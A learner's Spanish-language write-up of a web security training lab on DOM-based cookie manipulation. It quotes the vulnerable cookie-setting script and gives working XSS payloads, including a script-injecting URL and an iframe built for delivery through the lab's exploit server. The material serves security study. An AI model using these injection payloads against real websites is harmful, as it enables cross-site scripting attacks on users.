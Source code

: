 ![](assets/2022-07-18-20-32-49.png)

# DOM-based cookie manipulation

## Lab: DOM-based cookie manipulation

This lab demonstrates DOM-based client-side cookie manipulation. To solve this lab, inject a cookie that will cause XSS on a different page and call the print() function. You will need to use the exploit server to direct the victim to the correct pages.

- call print()
- using exploit server


```html
 document.cookie = 'cookieName='+location.hash.slice(1);
```

![](assets/2022-07-19-10-12-53.png)

![](assets/2022-07-19-10-14-15.png)
```js
 script>
     document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
 </script>
```       
En ver el botón "último producto visto" Guarda la cookie con la dirección 

Mi primera opción realmente sería poner un ```&'><script>print()</script>```
Con esto estaríamos haciendo el error dom que vimos antes.

Ahora habría que enviarlo nuestra victima.



Voy a intentar poner en un iframe y ejecutarlo en mi máquina.

```html
<iframe src="https://0a1e00b703b229c6c0904786003200ce.web-security-academy.net/product?productId=1&'><script>print()</script>">
```
He tenido que sustituir el 1' por 1" porque sino no funcionaba, pero ya lo veo en mi exploit cuando lo hago contra mi
```html
<iframe src="https://0a1e00b703b229c6c0904786003200ce.web-security-academy.net/product?productId=1&'><script>print()</script>">
```